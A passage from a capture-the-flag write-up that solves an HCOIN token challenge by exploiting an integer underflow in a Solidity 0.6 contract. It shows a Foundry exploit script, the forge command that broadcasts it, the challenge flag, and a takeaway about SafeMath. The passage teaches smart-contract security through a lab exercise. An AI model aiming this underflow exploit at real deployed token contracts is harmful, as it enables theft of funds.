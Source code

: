 Once this transaction completes, the challenge will be solved.

**Method-2**

We can also solve this challenge by writing a script.

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.6.0;

import {Script, console} from "forge-std/Script.sol";
import {Setup, HCOIN} from "src/Setup.sol";
import {ExploitHCOIN} from "./ExploitHCOIN.sol";

contract ExploitScript is Script {
    function run() public {
        vm.startBroadcast();
        Setup setup = Setup(//__YOUR__SETUP__ADDRESS);
        HCOIN hcoin = setup.coin();
        hcoin.transfer(address(1), 1 ether);
        setup.setPlayer(msg.sender);
        require(setup.isSolved(), "Exploit Failed");
        vm.stopBroadcast();
    }
}
```

```shell
$ forge script script/ExploitScript.s.sol:ExploitScript --rpc-url $RPC_URL -i 1 --broadcast --sender $PLAYER
```

Once you compile and run the script the challenge will be solved. If you face any copiler version issues set `solc_version = "0.6.12"` in foundry.toml

**Flag:** `TCP1P{https://x.com/0xCharlesWang/status/1782350590946799888}`

### Key Takeaways

For solidity versions less than 0.8.0, we need to explicitly handle the overflows and underflows. We can use the [SafeMath](https://github.com/aave/protocol-v2/blob/master/contracts/dependencies/openzeppelin/contracts/SafeMath.sol) library to overcome those.

<p style="text-align:center;">***<strong>Hope you enjoyed this write-up. Keep on hacking and learning!</strong>***</p>

